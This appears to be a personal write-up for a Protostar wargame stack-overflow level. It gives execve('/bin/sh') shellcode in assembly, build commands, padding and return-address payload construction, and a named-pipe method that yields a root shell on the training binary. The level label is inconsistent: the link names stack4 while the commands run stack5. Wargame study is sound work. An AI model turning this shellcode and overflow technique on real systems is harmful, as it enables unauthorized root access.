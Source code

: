 ## Description

[Problem source](https://exploit-exercises.com/protostar/stack4/)
TODO: Terrible grammar


### Solution

This level is considerably harder than the previous ones. In order to solve this
problem we'll need to create our own custom binary snippet, called the
`shellcode`, that we'll inject on the stack in order to execute `execve` and get
the shell access through the SETUID program.

We already know from the previous levels, that we can jump on an arbitrary
address in our program. This means that, if the stack is executable, we can jump
onto the stack as well. We can overflow the buffer with the machine code that
will execute execve and jump on that address. In real world this won't be
possible because stack in most cases is not executable and also ASLR assigns
random address to the stack, making it nearly impossible to guess the address of
our machine code.

Let's start by writing the execve shellcode:
	
	.section .text
	 _start:
	         mov $0x0b, %eax
	         lea -0x3b(%esp), %ebx #program string
	         mov $0, %ecx
	         mov $0, %edx
	         int $0x80
	 program:
	         .asciz "/bin/sh"

Compile and link it.

	as injection.S -o inj.o
	ld inj.o -o inj

Extract naked binary from ELF:

	objcopy -O binary inj inj.bin
	wc -c inj.bin

The size of our naked binary is 29 bytes. The distance between buffer and the
return address is 76 bytes. So we'll need to add 76 - 29 = 47 bytes of padding

	python -c "print('a' * 47)" >>inj.bin

Now at this point we need to know what is the absolute address of our buffer on
the stack, so we can overwrite the return pointer with that address. Using `gdb`
and running the program in the shell will provide different addresses because,
these two programs will run in different environments. As environmental
variables are pushed on the stack, if the size of env variables differ, so will
the address of our buffer. To mitigate this problem we can either add `nop`
paddings at the beginning of our code and expect that our `gdb` environment is
smaller than the one that the shell provides or we can ensure that we'll run our
program in the same environment as `gdb`. The $_ $PWD $OLDPWD and argv[0] should
be same in `gdb` and shell, and most likely our addresses will the same. In my
case the address is `0xbffff750`, so I'll add the address to my injection file.

	python -c "print('\x50\xf7\xff\xbf')" >>inj.bin

Next challenge is providing the program with an input. If we use the simple
pipe, it won't work as our first program will consume all the data from the pipe
and won't leave anything for bash and bash, not seeing any input on the
stdin, will simply quit. One solution to that problem is to create a named
pipe.and using `tail -f` to keep the shell from exiting.

	mkfifo fifo_tmp
	tail -c 100 -f ~/fifo_tmp | /opt/protostar/bin/stack5
	cat inj.bin >>fifo_tmp
	echo "whoami" >>fifo_tmp
		root
	echo "anycommand" >>fifo_tmp



## Lessons learned

gets stops reading after newline or null char, so the string `/bin/bash` should
be the last. (should check)

